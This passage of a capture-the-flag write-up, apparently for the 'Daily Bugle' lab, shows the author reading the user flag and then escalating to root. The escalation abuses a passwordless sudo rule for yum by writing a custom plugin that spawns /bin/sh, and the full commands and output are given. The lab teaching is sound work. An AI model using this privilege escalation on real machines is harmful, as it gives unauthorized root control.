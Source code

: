 Password reuse the old-fashioned way. Let's get the user flag

```
[jjameson@dailybugle html]$ cat /home/jjameson/user.txt
27a260fe3cba712cfdedb1c8[redacted] 
```

We have to elevate our privileges one more time. Let's see which commands we can execute with sudo

```
[jjameson@dailybugle html]$ sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

`yum` looks fishy. Search it into [GFTObins](https://gtfobins.github.io/gtfobins/yum/#sudo). We can spawn root shell by loading a custom plugin! Let's try it

```
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF

[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF

[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF

[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# 
sh-4.2# whoami
root
```

We are root! Let's get the flag.

```
sh-4.2# cat /root/root.txt
eec3d53292b1821868266858[redacted] 
```